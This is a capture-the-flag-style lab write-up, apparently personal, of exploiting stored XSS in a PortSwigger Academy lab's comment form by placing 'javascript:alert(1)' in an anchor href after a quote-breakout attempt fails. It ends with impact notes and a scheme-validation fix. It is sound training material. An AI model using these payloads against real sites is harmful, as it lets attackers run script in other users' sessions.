




# Stored XSS into Anchor href Attribute with Double Quotes HTML-Encoded

## 1. Lab / Target

**Platform:** PortSwigger Web Security Academy  
**Vulnerability:** Stored Cross-Site Scripting (XSS)  
**Target:** PortSwigger Web Security Academy Lab

The objective of this lab was to identify and exploit a stored Cross-Site Scripting (XSS) vulnerability in the application's comment functionality.

The goal was to submit a comment containing a payload that executes `alert(1)` when the comment author's name is clicked.

---

## 2. Initial Reconnaissance

When I opened the lab, I noticed that the page contained a comment section.

Since the lab description specifically mentioned a stored XSS vulnerability in the comment functionality, I focused my testing on the comment form.

The form contained several fields:

```html
<textarea name="comment"></textarea>

<input type="text" name="name">

<input type="email" name="email">

<input type="text" name="website">
```

I started by submitting a harmless comment with normal values:

```text
Comment: testcomment1
Name: testname1
Email: testemail@gmail.com
Website: test.com
```

<p>

</p>

After submitting the comment, the comment was stored and displayed on the page.

This confirmed that the comment functionality was storing user-controlled input and displaying it later.

At this point, I wanted to determine exactly where each input field was being inserted into the page.

---

## 3. Identifying the Injection Point

I inspected the HTML generated for my stored comment.

The author's name was displayed as a clickable link:

```html
<a id="author" href="test.com">testname1</a>
```

<p>

</p>

The important observation was that the value I entered into the **Website** field was being inserted into the `href` attribute.

The application was effectively generating:

```html
<a id="author" href="USER_INPUT">testname1</a>
```

This gave me the following data flow:

```text
Website input
      ↓
Stored with the comment
      ↓
Retrieved when the page loads
      ↓
Inserted into the href attribute
      ↓
<a id="author" href="USER_INPUT">testname1</a>
```

This was the important injection point.

The input was not being reflected as normal text. Instead, it was being used as the value of an HTML `href` attribute.

The important question became:

> **What can I make the browser do with a value inside an href attribute?**

---

## 4. Testing Whether I Could Escape the href Attribute

My first thought was to try escaping the existing `href` attribute.

The HTML structure was:

```html
<a id="author" href="USER_INPUT">testname1</a>
```

If the application allowed me to inject a double quote, I might be able to close the existing attribute and add another HTML attribute.

For example:

```html
"onclick="alert(1)
```

could potentially result in:

```html
<a id="author" href="" onclick="alert(1)">testname1</a>
```

I therefore tested whether special characters could be used to escape the `href` attribute.

One of my tests was:

```text
https://:?<.com
```
<p>

</p>

The application encoded the double quote:

```text
" → &quot;
```

The resulting HTML showed:

```html
<a id="author" href="&quot;...">testname2</a>
```


This was an important discovery.

The application was HTML-encoding the double quote.

Therefore, I could not use:

```text
"
```

to break out of the existing `href` attribute.

At this point, instead of continuing to search for a way to escape the attribute, I looked more closely at what an `href` attribute actually accepts.

---

## 5. Understanding the href Context

An `href` attribute is used to specify a URL.

For example:

```html
<a href="https://example.com">testname1</a>
```

The browser interprets:

```text
https://example.com
```

as a URL and navigates to it when the link is clicked.

However, URLs are not limited to the `https://` scheme.

They can use different URL schemes.

One of these schemes is:

```text
javascript:
```

The `javascript:` scheme tells the browser to execute the JavaScript expression that follows it when the link is activated.

This meant that I did not necessarily need to escape the existing `href` attribute.

Instead, I could try to control the URL value inside the attribute.

---

## 6. Testing the javascript: URL Scheme

I replaced the Website value with:

```text
javascript:alert(1)
```

The application stored the value and rendered it inside the `href` attribute:

```html
<a id="author" href="javascript:alert(1)">testname1</a>
```

The important part was:

```html
href="javascript:alert(1)"
```

The payload did not need to break out of the HTML attribute.

Instead, it remained inside the `href` value and used the `javascript:` URL scheme.

When the author link is activated, the browser interprets:

```text
javascript:alert(1)
```

as JavaScript and executes:

```javascript
alert(1)
```

This was the key difference from my earlier approach.

I initially thought I needed to escape the `href` attribute to perform XSS.

However, because I controlled the value of the `href`, I could use a URL scheme that caused JavaScript execution directly.

---

## 7. Successful Stored XSS

After submitting the payload:

```text
javascript:alert(1)
```

I clicked the author's name.

The browser executed:

```javascript
alert(1)
```

and displayed the alert dialog.

<p>

</p>

The successful `alert(1)` confirmed that the JavaScript payload was executed.

The vulnerability was stored XSS because the malicious value was saved with the comment and was executed later when the stored comment was viewed and the author's name was clicked.

The complete attack flow was:

```text
Website input
      ↓
Stored with the comment
      ↓
Inserted into the href attribute
      ↓
href="USER_INPUT"
      ↓
Double quotes are HTML-encoded
      ↓
Cannot escape the attribute using "
      ↓
Recognize that href accepts a URL
      ↓
Use the javascript: URL scheme
      ↓
javascript:alert(1)
      ↓
Click the author's name
      ↓
JavaScript executes
      ↓
alert(1)
```

---

## 8. Technical Explanation

The vulnerability occurs because attacker-controlled input from the Website field is stored with the comment and later inserted into an HTML `href` attribute.

The original Website value was:

```text
test.com
```

which resulted in:

```html
<a id="author" href="test.com">testname1</a>
```

The important context was:

```html
href="USER_INPUT"
```

I initially considered breaking out of this attribute using a double quote:

```text
"
```

However, the application encoded the character:

```text
" → &quot;
```

This prevented me from closing the existing `href` attribute and injecting another HTML attribute such as:

```html
onclick="alert(1)"
```

Instead of trying to escape the attribute, I considered what an `href` value represents.

An `href` contains a URL, and URLs can use different schemes.

The `javascript:` scheme can execute JavaScript when the link is activated.

Therefore, I used:

```text
javascript:alert(1)
```

The application generated:

```html
<a id="author" href="javascript:alert(1)">testname1</a>
```

When I clicked the author's name, the browser executed:

```javascript
alert(1)
```

The important lesson is that the double quote encoding prevented one type of attack — breaking out of the HTML attribute — but it did not make the URL value itself safe.

This demonstrates why output encoding alone is not always sufficient. The application also needs to safely handle the type of data expected in a particular context.

For a URL-valued attribute, the application should validate or restrict the allowed URL schemes rather than only relying on HTML encoding.

---

## 9. Impact

In a real-world application, stored XSS can be more serious than reflected XSS because the malicious payload is stored by the application and can be delivered to other users who view the affected content.

Depending on the application's functionality and security controls, potential consequences can include:

* Manipulation of page content.
* Performing actions on behalf of the victim.
* Phishing or UI manipulation.
* Executing JavaScript in the security context of the vulnerable application.
* Abusing functionality available to the victim.
* Potential access to data that is available to JavaScript within the application's origin.

The exact impact depends on the application's architecture, authentication model, browser protections, CSP, and other security controls.

In this lab, the payload executes when the victim clicks the stored author's name.

---

## 10. Conclusion / Takeaway

This lab helped me understand the importance of identifying the **context** in which user-controlled input is placed before choosing an XSS payload.

My approach was:

```text
Identify the user-controlled input
        ↓
Submit a harmless value
        ↓
Inspect where the value is stored
        ↓
Identify the href attribute as the injection point
        ↓
Test whether I could escape the attribute
        ↓
Discover that double quotes are HTML-encoded
        ↓
Stop focusing on attribute breakout
        ↓
Analyze what an href value accepts
        ↓
Test the javascript: URL scheme
        ↓
Execute alert(1)
        ↓
Confirm stored XSS
```

The key lesson I took from this lab is:

> **When one XSS technique is blocked, don't immediately assume the context is safe. Understand what the current context allows you to control.**

In this case, I could not break out of the `href` attribute because the application encoded double quotes.

However, I could still control the value of the `href` itself.
